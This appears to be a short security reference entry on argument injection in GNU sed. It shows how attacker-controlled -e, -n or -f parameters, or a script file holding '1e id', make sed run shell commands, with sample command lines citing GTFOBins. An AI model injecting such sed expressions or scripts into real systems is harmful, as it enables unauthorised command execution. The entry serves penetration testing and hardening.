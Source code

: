 ```yaml
---
title: sed
tags:
  - cli
  - config-file
  - eval-sh
references: 
- https://www.gnu.org/software/sed/manual/sed.html#sed-scripts
files: ['*.sed','*.filter']
---
```


`sed` or `gsed` is a line-oriented text processing utility that processes input streams or files and can modify text files efficiently.

## Injection

In the GNU version of `sed`, if the `-e`, `--expression` or `-n` parameter is controlled by the attacker, RCE is achieved. See [GTFOBins](http://gtfobins.github.io/gtfobins/sed/#command):

```sh
sed -n '1e id' any.txt
sed -e '1e id' any.txt
sed --expression '1e id' any.txt
```

## Script file

If an attacker-controlled script is used (`-f`, `--file`), RCE is achieved:

```sh
sed -f script.sed any.txt
sed --file script.sed any.txt
```

`script.sed`

```sed
1e id
```

`sed` scripts can have any extensions, but are commonly `.sed` or `.filter`.
